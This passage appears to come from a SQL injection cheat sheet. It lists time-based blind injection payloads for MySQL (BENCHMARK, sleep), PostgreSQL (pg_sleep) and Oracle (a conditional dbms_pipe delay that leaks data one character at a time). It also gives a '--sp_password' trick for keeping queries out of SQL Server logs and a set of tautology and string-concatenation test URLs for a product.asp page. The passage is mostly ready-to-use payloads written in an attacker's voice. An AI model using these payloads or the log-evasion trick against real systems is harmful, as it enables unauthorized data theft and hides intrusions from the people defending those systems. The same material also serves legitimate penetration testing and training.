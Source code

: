 #### BENCHMARK() (M)

Basically, we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!

`BENCHMARK(howmanytimes, do this)`

#### Real World Samples

-   Are we root ? woot!   
    `IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`
-   Check Table exist in MySQL   
    `IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`

#### pg\_sleep(seconds) (P)

Sleep for supplied seconds.

-   `SELECT pg_sleep(10);`   
    Sleep 10 seconds.

#### sleep(seconds) (M)

Sleep for supplied seconds.

-   `SELECT sleep(10);`   
    Sleep 10 seconds.

#### dbms\_pipe.receive\_message (O)

Sleep for supplied seconds.

-   `(SELECT CASE WHEN (NVL(ASCII(SUBSTR((**{INJECTION}**),1,1)),0) = 100) THEN dbms_pipe.receive_message(('xyz'),10) ELSE dbms_pipe.receive_message(('xyz'),1) END FROM dual)`
    
    **{INJECTION}** \= You want to run the query.
    
    If the condition is true, will response after 10 seconds. If is false, will be delayed for one second.
    

## Covering Your Tracks

#### SQL Server -sp\_password log bypass (S)

SQL Server don't log queries that includes sp\_password for security reasons(!). So if you add --sp\_password to your queries it will not be in SQL Server logs (_of course still will be in web server logs_, _try to use POST if it's possible_)

## Clear SQL Injection Tests

These tests are simply good for blind sql injection and silent attacks.

1.  `product.asp?id=4 (SMO)`
    1.  `product.asp?id=5-1`
    2.  `product.asp?id=4 OR 1=1` 
2.  `product.asp?name=Book`
    1.  `product.asp?name=Bo'%2b'ok`
    2.  `product.asp?name=Bo' || 'ok (_OM_)`
    3.  `product.asp?name=Book' OR 'x'='x`
